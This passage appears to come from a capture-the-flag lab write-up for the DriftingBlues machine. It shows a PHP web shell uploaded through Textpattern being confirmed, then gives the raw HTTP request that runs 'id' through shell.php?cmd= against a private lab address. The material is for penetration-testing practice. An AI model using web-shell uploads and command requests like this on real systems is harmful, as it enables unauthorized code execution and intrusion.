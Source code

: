 ![file uploaded](/images/driftingblues_fileuploaded.png)  

Lets have a look if we can access the file

![shell](/images/driftingblues_shell.png)  

> The file is there. Now lets try a code execution
{: .prompt-info }
### request
```http
GET /textpattern/files/shell.php?cmd=id HTTP/1.1
Host: 192.168.76.219
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```